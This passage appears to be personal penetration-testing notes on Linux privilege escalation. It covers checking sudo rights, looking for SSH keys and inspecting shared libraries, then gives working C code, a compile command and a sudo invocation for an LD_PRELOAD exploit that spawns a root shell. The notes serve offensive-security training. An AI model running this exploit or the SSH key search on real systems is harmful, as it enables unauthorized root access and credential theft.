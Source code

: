 #### Searching for SSH keys
```Shell
ls ~/.ssh
```


## Shared Libraries

#### View the shared objects required by a binary
```Shell
ldd /bin/ls
```
![[Pasted image 20230310114608.png]]
The image above lists all the libraries required by `/bin/ls`, along with their absolute paths

### LD_PRELOAD Privilege Escalation
*For this, we need a user with sudo privileges.*

#### Check for sudo privs
```Shell
sudo -l
```

#### Exploit the LD_PRELOAD issue to run a custom shared library file, written in C as follows:
```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```

#### Compile the binary
```Shell
gcc -fPIC -shared -o root.so root.c -nostartfiles
```

#### Use sudo with LD_PRELOAD command to escalate privileges
```Shell
sudo LD_PRELOAD=/tmp/root.so /usr/sbin/apache2 restart
```
Make sure to specify the full path to your malicious library file


## Shared Object Hijacking
